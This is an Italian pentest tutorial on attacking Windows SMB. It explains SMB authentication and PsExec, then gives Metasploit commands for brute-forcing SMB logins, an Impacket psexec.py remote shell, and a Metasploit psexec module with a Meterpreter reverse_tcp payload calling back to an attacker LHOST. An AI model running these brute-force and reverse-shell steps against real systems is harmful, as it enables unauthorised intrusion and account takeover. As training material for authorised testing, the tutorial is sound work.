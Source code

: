 # Exploiting SMB con PsExec

## Introduzione all’autenticazione SMB

Il protocollo **SMB (Server Message Block)** viene utilizzato nei sistemi Windows per la condivisione di file, stampanti e risorse di rete. SMB supporta due principali modalità di autenticazione:

1. **Autenticazione dell’utente** – richiede un nome utente e una password validi.  
2. **Autenticazione della risorsa condivisa** – richiede solo una password per accedere a una cartella condivisa, senza nome utente.

Durante la procedura di autenticazione SMB, il processo si svolge nel seguente modo:
- Il client invia una richiesta di autenticazione al server, specificando un nome utente.
- Il server risponde con una **stringa casuale (challenge)**.
- Il client cifra questa stringa con l’**hash della password dell’utente** e la invia al server.
- Il server, conoscendo l’hash della password, verifica la risposta.
Se la stringa corrisponde, l’autenticazione viene accettata.

---

## Che cos’è PsExec

**PsExec** è uno strumento sviluppato da Sysinternals (Microsoft) che consente di **eseguire comandi e processi su sistemi Windows remoti**.  
Può essere considerato un’alternativa più leggera di RDP: anziché accedere con un’interfaccia grafica, PsExec fornisce un accesso testuale simile al terminale, eseguendo comandi CMD da remoto.

Il suo funzionamento si basa sul protocollo SMB: ciò significa che può essere utilizzato per autenticarsi ed eseguire comandi su un host remoto **senza bisogno di vulnerabilità**, a condizione di possedere credenziali valide.

---

## 1 – Enumerazione delle credenziali con brute force

Uno dei modi più comuni per ottenere credenziali valide è il **brute force** sul servizio SMB.  
In Metasploit esiste un modulo apposito:

`use auxiliary/scanner/smb/smb_login` ⟶ modulo per tentare autenticazioni SMB. <br>
`set RHOSTS <IP>` ⟶ indirizzo target. <br>
`set USER_FILE <lista_username.txt>` ⟶ file contenente possibili username. <br>
`set PASS_FILE <lista_passwords.txt>` ⟶ file contenente possibili password. <br>
`run` ⟶ avvia il brute force. <br>

Se il modulo restituisce una coppia valida di credenziali, possiamo proseguire all’autenticazione.

---

## 2 – Accesso remoto con psexec.py (Impacket)

Lo strumento `psexec.py` della suite **Impacket** consente di autenticarsi e ottenere una shell CMD:

`psexec.py <username>@<IP> cmd.exe` ⟶ connessione remota tramite SMB con prompt dei comandi. <br>

si trova al path `/usr/share/doc/python3-impacket/examples/psexec.py` <br>

Dopo l’invio del comando, verrà chiesta la password. Inserendo quella corretta, si otterrà accesso al prompt di Windows con i privilegi dell’utente fornito.

Questo tipo di autenticazione è **totalmente legittima**, non sfrutta vulnerabilità, e viene spesso usata da amministratori di sistema per gestire host remoti.

---

## 3 – Alternativa con Metasploit

Metasploit offre anche un modulo per sfruttare SMB usando credenziali valide:

`use exploit/windows/smb/psexec` ⟶ modulo per eseguire comandi su target Windows. <br>
`set RHOSTS <IP>` ⟶ indirizzo del sistema bersaglio. <br>
`set SMBUser <username>` ⟶ nome utente. <br>
`set SMBPass <password>` ⟶ password. <br>
`set PAYLOAD windows/meterpreter/reverse_tcp` ⟶ tipo di payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina di attacco. <br>
`set LPORT <Port>` ⟶ porta su cui ricevere la shell. <br>
`run` ⟶ avvia l’exploit. <br>

Questo modulo carica una reverse shell sul target e restituisce una sessione Meterpreter. Da lì:

`getuid` ⟶ mostra il contesto utente. <br>
`shell` ⟶ apre un prompt CMD. <br>

---
